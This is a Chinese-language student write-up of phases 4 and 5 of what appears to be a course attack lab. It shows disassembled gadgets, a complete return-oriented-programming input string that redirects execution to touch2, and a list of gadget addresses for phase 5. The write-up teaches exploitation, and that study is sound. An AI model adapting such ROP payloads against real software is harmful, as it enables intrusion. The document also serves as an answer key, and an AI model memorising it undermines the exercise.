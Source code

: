 

# Phase4

phase4和phase5都是return oriented programming

``` assembly
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    
  
# popq %rax   58
# nop         90
# ret         c3
# 0x4019cc~0x4019ce为一个gadget

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret   

# mov %rax, %rdi 48 89 c7
# nop 90
# 0x4019c5~0x4019c9为一个gadget
```

输入如下

``` 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00		# 第一个gadget地址
fa 97 b9 59 00 00 00 00		# popq的数据
c5 19 40 00 00 00 00 00		# 第二个gadget的地址
ec 17 40 00 00 00 00 00		# touch2的地址
```

执行流程:

1. 取返回地址, 转到第一个gadget执行
2. 第一个gadget执行popq, 取出数据赋值给rax
3. 取返回地址, 转到第二个gadget执行, 将rax的值赋值给rdi
4. 取返回地址, 转到touch2执行



# Phase5

``` 
各个gadget的地址
mov %rax, %rdi	0x4019a2
mov %rsp, %rax	0x401a06
popq %rax		0x4019ab
mov %eax, %edx	0x4019dd
mov %eax, %edi	0x4019c6
mov %ecx, %esi	0x401a13
mov %esp, %eax	0x401a07

popq %rsp		0x4019dc
mov %eax, %edx

lea    (%rdi,%rsi,1),%rax 	0x4019d6

mov %edx, %ecx	0x401a69
```